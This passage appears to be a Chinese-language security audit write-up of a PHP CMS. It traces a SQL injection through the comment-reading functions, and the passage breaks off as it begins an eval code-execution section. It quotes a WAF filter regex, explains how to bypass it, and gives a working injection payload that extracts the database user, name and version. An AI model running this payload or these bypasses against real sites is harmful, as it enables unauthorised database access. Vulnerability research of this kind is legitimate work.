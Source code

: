 ```php
		$rl[]="\"".$row['id']."\":{\"uid\":".$row['uid'].",\"tmp\":\"\",\"nick\":\"".$row['username']."\",\"face\":\"\",\"star\":\"\",\"anony\":".(empty($row['username'])?1:0).",\"from\":\"".$row['username']."\",\"time\":\"".$row['dtime']."\",\"reply\":\"".$row['reply']."\",\"content\":\"".$row['msg']."\",\"agree\":".$row['agree'].",\"aginst\":".$row['anti'].",\"pic\":\"".$row['pic']."\",\"vote\":\"".$row['vote']."\",\"allow\":\"".(empty($row['anti'])?0:1)."\",\"check\":\"".$row['ischeck']."\"}";
	}
	$readrlist=join($rl,",");
	return $readrlist;
}
```

注意到`Readrlist`中的sql语句为`$sql = "SELECT id,uid,username,dtime,reply,msg,agree,anti,pic,vote,ischeck FROM sea_comment WHERE m_type=$type AND id in ($ids) ORDER BY id DESC";`,`$ids`使用`()`进行闭合,可能会存在注入漏洞

在`ReadData`函数中`$x = implode(',',$rlist);`并调用`Readrlist($x,1,10000)`,向`$rlist`传入一个含有恶意字符串的数组,通过`implode`进行拼接转换为字符串,即可在`Readrlist`中进行注入

`使用$rlist`需要满足前置条件即`page>=2`和`id>0`

```php
if($page<2)
{
	if(file_exists($jsoncachefile))
	{
		$json=LoadFile($jsoncachefile);
		die($json);
	}
}
$h = ReadData($id,$page);
```

`$rlist $id $page`来源于用户传入的参数,而这些参数在`include/common.php`完成注册,因此这里直接传参即可进行sql注入,但要注意360webscan存在过滤

```
\\<.+javascript:window\\[.{1}\\\\x|<.*=(&#\\d+?;?)+?>|<.*(data|src)=data:text\\/html.*>|\\b(alert\\(|confirm\\(|expression\\(|prompt\\(|benchmark\s*?\(.*\)|sleep\s*?\(.*\)|\\b(group_)?concat[\\s\\/\\*]*?\\([^\\)]+?\\)|\bcase[\s\/\*]*?when[\s\/\*]*?\([^\)]+?\)|load_file\s*?\\()|<[a-z]+?\\b[^>]*?\\bon([a-z]{4,})\s*?=|^\\+\\/v(8|9)|\\b(and|or)\\b\\s*?([\\(\\)'\"\\d]+?=[\\(\\)'\"\\d]+?|[\\(\\)'\"a-zA-Z]+?=[\\(\\)'\"a-zA-Z]+?|>|<|\s+?[\\w]+?\\s+?\\bin\\b\\s*?\(|\\blike\\b\\s+?[\"'])|\\/\\*.*\\*\\/|<\\s*script\\b|\\bEXEC\\b|UNION.+?SELECT\s*(\(.+\)\s*|@{1,2}.+?\s*|\s+?.+?|(`|'|\").*?(`|'|\")\s*)|UPDATE\s*(\(.+\)\s*|@{1,2}.+?\s*|\s+?.+?|(`|'|\").*?(`|'|\")\s*)SET|INSERT\\s+INTO.+?VALUES|(SELECT|DELETE)@{0,2}(\\(.+\\)|\\s+?.+?\\s+?|(`|'|\").*?(`|'|\"))FROM(\\(.+\\)|\\s+?.+?|(`|'|\").*?(`|'|\"))|(CREATE|ALTER|DROP|TRUNCATE)\\s+(TABLE|DATABASE)
```

过滤`UPDATE`用`extractvalue`替换,过滤`(group_)?concat`用`concat_ws`

`gid=1&page=3&rlist[]=extractvalue(1,concat_ws(0x7e,1,user(),database(),version()))`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203081107983.png)

## include/main.class.php存在eval代码执行

```php
function buildregx($regstr,$regopt)
{
	return '/'.str_replace('/','\/',$regstr).'/'.$regopt;
}

function parseStrIf($strIf)
{
    if (strpos($strIf, '=') === false) {
        return $strIf;
    }
    if ((strpos($strIf, '==') === false) && (strpos($strIf, '=') > 0)) {
        $strIf = str_replace('=', '==', $strIf);
```